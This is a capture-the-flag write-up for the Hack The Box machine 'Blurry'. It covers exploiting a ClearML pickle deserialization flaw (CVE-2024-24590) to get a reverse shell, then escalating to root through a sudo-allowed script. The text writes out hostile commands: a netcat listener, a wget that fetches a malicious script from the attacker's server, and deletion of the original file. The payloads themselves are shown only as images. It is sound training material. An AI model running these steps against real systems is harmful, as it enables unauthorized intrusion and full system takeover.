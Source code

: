 # Blurry Writeup

# Intro
Blurry is an interesting HTB machine where you will leverage the CVE 2024-24590 exploit to pop a reverse shell in order to escalate your privileges within the local system. This box uses ClearML, an open-source machine learning platform that allows its users to streamline the machine learning lifecycle. ClearML is used by many Data Engineers and Data Scientist.

Below you can find of the tools that I used to complete this challenge
1. Kali Linux: An operating system that specializes in penetration testing.
2. Nmap: An open-source tool for network exploration, along with security auditing
3. Clearml python libraries: These libraries are used to interact with the open-source ClearML that we plan to hack into. I will go more into these libraries within the writeup.

I will go into detail regarding the steps taken. We will go over the initial reconnaissance, identifying avenues of exploitation, exploitation foothold, then post exploitation.

### Initial Reconnaissance
As with any initial penetration test, we will start with a nmap scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -v -sV -sC -p- 10.10.11.19                               
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 2CBD65DC962D5BF762BCB815CBD5EFCC
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

}
```

We see that we have ports 22 and 80 open. Also, that that it is a Linux machine. To get more info, we will visit the page at blurry.htb or 10.10.11.19 within the web browser.


![appblurryhtb login](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/bf5b7bc6-a7f4-4fb8-ba1f-4367812385b5)


Here we are able to make a user name of our choosing and log into ClearML. You will be greeted with a page regarding instructions of how to use clear ML along with creating your own credentials.

To do so, we will need to pip install the clearml libraries via the instructions below.

![credentials](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/a2029720-dcc0-4de9-ae8a-5b35b59ee2af)



One thing to note, to be sure that the libraries are installed correctly, I ran a pip install command on the following:

```bash
pip install clearml
pip install clearml-init
pip install clearml-agent
```
For some reason the original pip install ClearML did not properly install the clearml-init and clearml-agent for me. If you run into issues, I recommend retying to pip install these.


### Avenues of Exploitation

After playing around with the website, and researching, I found that ClearML has a vulnerability (CVE2024-24590). This vulnerability can allow a user to run commands via the pickle python library.

The pickle library is used by many python users. The uses range from data transfer, saving a program state, or caching. From my experience as a data analyst/data scientist, the pickle library has many uses.

However, in this case, we will use it as an exploit. Below is the python payload that I used.

![image](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7d527fcd-1162-4f90-9172-747763d35ece)



### Exploitation Foothold

After the payload is created, we will run the following command. This will start the ClearML agent to upload our malicious code to the ClearML site.

```bash
clearml-agent daemon --queue default
```

After this is ran, we will set up a listener (I put my listener on port 4444)

```bash
nc -lvnp 4444
```

Then execute the python payload

```bash
python3 <your python file payload>.py
```

NOTE: At least in my case, it took a while for me to establish a connection. I recommend getting a cup of coffee and coming back. After, you should see that we that we have a reverse shell.

![reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/b403c153-9b87-4527-9fc2-e7547d2e6af2)


### Post Exploitation

Now we are in the system and have gained a foothold. It is good practice to see who we are, and if the user we are logged into has any root permissions. 

As seen below, we are the user jippity and they are able to run sudo privileges on the file path /user/bin/evaluate_model /models/*.pth. This means that we are able to run sudo level commands in this directory.

![root permissions](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ab4bc222-3ff4-4fb3-b4b4-60f91938307d)


Before we do that, we can explore the directory to find the user flag. You should be able to find it easily as you navigate through the user files.

![userflag](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/721c2932-9a6a-49d3-b8e3-6ba81fed24ee)


After we get the userflag, our next target is the root flag. Since we know that the user we are logged in as (jippity) has sudo privileges specified in the file path above, we can navigate to the /models directory and see what is in there.

As we will see, they have two files, demo_model.pth and evaluate_model.py. Since we know that we can run sudo privileges, we can create a malicious python script to execute and escalate our privileges. We will do this by popping a reverse shell. Below is the python script I created to do so.

![evaluate_model python reverseshell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/736ec370-0133-4e3e-85f4-0fa073cd456a)


I named this file evaluate_model.py. The reason why is because we are tricking the system into thinking that it is running the original evaluate_model.py that is within the /models directory. However, it will be running the code above instead.

After we created our second payload, we will remove the original evaluate_model.py
```bash
rm /models/evaluate_model.py
```

Once that is removed, we will set up a simple python server on our attacking machine to upload the malicious python file.

```bash
python -m http.server <port of your choosing>
```

Then we will use wget to upload the file within the victim machine in the /models directory. NOTE: In your attacking machine, you will need to be in the directory where you have your malicious python file is.

```bash
wget http://<your ip>:<your port>/<malicious.py> -O evaluate_model.py
```

After, we should see that the script was successfully uploaded. Now we will set up a netcat listener

![reverse shell root](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/3ce4a8bf-1a75-4f22-995e-22613e9743ba)



Now we will execute the script within the models directory with the following command.

```bash
sudo /usr/bin/evaluate_model /models*.pth
```
![sudo command](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/2d580148-49a5-4d90-bf4f-81d8fdfb8355)

At last, we are logged in as root.

![root reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ceb961b6-bf77-400c-b644-eec87db80749)

From here, we can explore directories as root, and we can cat the root.txt file to get the root flag.

![rooted](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7f4a980e-eb49-4cce-9106-518bd9062457)


This was an extremely interesting HTB challenge as this focuses on exploiting ML tools that are continuing to be put on the market at an ever-evolving rate. This is a fantastic exercise in highlighting potential vulnerabilities and how we can combat them.

If you have any questions, feel free to reach me on LinkedIn.

<a href="https://www.linkedin.com/in/ryan-levey/"><img src="https://img.shields.io/badge/-LinkedIn-0072b1?&style=for-the-badge&logo=linkedin&logoColor=white" /></a>





